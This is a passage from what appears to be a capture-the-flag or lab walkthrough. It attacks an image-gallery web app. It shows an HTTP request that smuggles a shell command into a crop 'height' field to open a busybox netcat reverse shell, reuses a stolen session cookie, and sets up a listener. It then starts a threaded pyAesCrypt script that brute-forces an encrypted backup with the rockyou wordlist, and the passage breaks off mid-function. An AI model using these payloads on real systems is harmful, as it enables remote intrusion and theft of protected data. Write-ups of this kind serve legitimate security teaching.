 We can upload an image to the gallery. And we can use the transform image feature to perform RCE. 
First we set up a netcat listener on our machine:
```bash
nc -lvnp 4444
```

Then we use the crop image transformation to execute a reverse shell payload: 
```
POST /apply_visual_transform HTTP/1.1
Cookie: session=<stolen_testuser_session_cookie>
{
    "imageId":"9bdd9253-db13-4ba9-9234-a8d8c632fb9b",
    "transformType":"crop",
    "params":{
        "x":0,
        "y":0,
        "width":744,
        "height":"100; busybox nc 10.10.14.4 443 -e /bin/sh; echo"

    }
}
```

We get a reverse shell as the user `web`:
```
whoami
```
```
web
```

We check `/var/backup` directory and find a backup file:
```
ls /var/backup
```
```
web_20250806_120723.zip.aes
```

We try to decrypt the file using `pyAesCrypt` and a password list. We create a script `decrypt_aes.py` to automate the process:

```python
import pyAesCrypt
import os
import threading
from queue import Queue
from tqdm import tqdm
import tempfile
import shutil

# Parámetros
BUFFER_SIZE = 64 * 1024
ENCRYPTED_FILE = "web_20250806_120723.zip.aes"
PASSWORD_DICT = "/usr/share/wordlists/rockyou.txt"
FINAL_OUTPUT = "decrypted_result.zip"
NUM_WORKERS = 20
QUEUE_MAXSIZE = 10000  

found_event = threading.Event()
found_password = {"pw": None}
print_lock = threading.Lock()

def try_decrypt(password: str) -> bool:
    """
    Intenta desencriptar ENCRYPTED_FILE en un archivo temporal con la contraseña dada.
    Devuelve True si tuvo éxito.
    """
```